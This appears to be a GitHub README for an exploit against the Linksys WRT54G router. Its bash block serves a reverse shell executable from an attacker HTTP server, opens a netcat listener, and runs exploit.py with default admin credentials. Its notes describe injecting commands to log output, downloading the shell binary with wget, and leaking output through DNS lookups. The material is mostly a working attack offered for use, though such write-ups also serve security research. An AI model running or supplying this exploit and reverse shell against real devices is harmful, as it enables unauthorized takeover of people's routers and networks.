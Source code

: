 # Exploiting Linksys WRT54G

## Exploit
```bash
# Install the requirements.
pip install -r requirements.txt


ROUTER_HOST=192.169.1.1
ROUTER_USERNAME=admin
ROUTER_PASSWORD=admin

ATTACKER_HOST=192.169.1.100
ATTACKER_HTTP_SERVER_PORT=8000
ATTACKER_REVSHELL_HANDLER_PORT=4141


# Start HTTP server in order to serve the reverse shell executable.
cd revshell
python -m SimpleHTTPServer $ATTACKER_HTTP_SERVER_PORT

# Start reverse shell handler.
nc -l $ATTACKER_REVSHELL_HANDLER_PORT

# Run the exploit.
python exploit.py --host $ROUTER_HOST --username $ROUTER_USERNAME --password $ROUTER_PASSWORD --attacker-host $ATTACKER_HOST --attacker-http-port $ATTACKER_HTTP_SERVER_PORT --attacker-handler-port $ATTACKER_REVSHELL_HANDLER_PORT
```

### Leads for leaking command output
- [x] Look for file paths that are displayed within the web interface that command output can be written to.  
  Using `/tmp/ping.log` to view the output at `/Ping.asp`.
- [x] Use `wget` to download reverse shell binary to the router.
- [ ] Config the attacker as the DNS server and force the router to issue DNS requests with the command output.  
  Like ```nslookup `whoami`.fake.domain```


### TODOs
- [x] Use argparse and make the exploit an executable.


### Unsolved Mysteries
- If `ui_language` is stored in nvram (Non-Volatile Memory), how come it fixes itself upon reboot?


### Links
[Firmware](https://www.linksys.com/us/support-article?articleNum=148648)  
[Toolchain](https://www.linksys.com/us/support-article?articleNum=114663)
